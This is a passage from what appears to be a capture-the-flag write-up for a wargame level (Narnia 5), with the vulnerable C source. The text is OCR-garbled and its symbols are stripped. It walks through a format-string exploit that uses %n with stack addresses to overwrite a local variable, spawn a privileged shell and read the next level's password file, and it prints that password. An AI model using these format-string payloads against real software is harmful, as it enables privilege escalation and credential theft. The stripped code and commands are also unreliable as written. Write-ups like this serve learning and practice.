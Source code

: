 Therefore  replacing AAAA with the address of the local i variable followed by the  n format specifier will successfully overwrite the variable 

   highlight bash   
narnia5 narnia  narnia    narnia5   python  c  print  xf0xd5xffxff n     
Change i s value from 1    500  No way   let me give you a hint   
buffer       4   
i   4  0xffffd5f0 
   endhighlight   

Observe that the value for the variable is 4 which matches the amount of bytes in the buffer  Therefore  the amount of bytes inside the buffer corresponds to the overwriting value for the variable 

     Controlling Variable Value

After verifying the ability for overwriting the local variable  we are left with the task of controlling its value  This can be done by padding the buffer using two different methods 

      Method 1

We can use a specifier for the position of the input within the stack 

   highlight bash   
narnia5 narnia  narnia    narnia5   python  c  print  xe0xd5xffxff    496x 1 n     
Change i s value from 1    500  GOOD  
  whoami  
narnia6
   endhighlight   

In the method above  the  1 specifies that the input is in position 1 within the stack  This method  however  is unstable in comparison to the second method  The payload used does not work when using single quotes around the input  rather only double quotes work 

      Method 2

This method copies the address for the i variable twice before padding it with the necessary amount of bytes  Inputting the address twice was found to be necessary  after a lot of trial and error  

   highlight bash   
narnia5 narnia  narnia   narnia narnia5   python  c  print  xd0xd5xffxffxd0xd5xffxff 492x n                                                                           
Change i s value from 1    500  GOOD  
  cat  etc narnia pass narnia6

neezocaeng
   endhighlight   

    Source Code

   highlight c   
 include  stdio h   
 include  stdlib h   
 include  string h   
  
int main int argc  char   argv         int i   1        char buffer 64         snprintf buffer  sizeof buffer  argv 1     
       buffer sizeof  buffer    1    0        printf  Change i s value from 1    500            if i  500                 printf  GOODn     
       setreuid geteuid   geteuid      
               system   bin sh     
               printf  No way   let me give you a hint n          printf  buffer     s    d n   buffer  strlen buffer          printf   i    d   p n   i   i         return 0   
 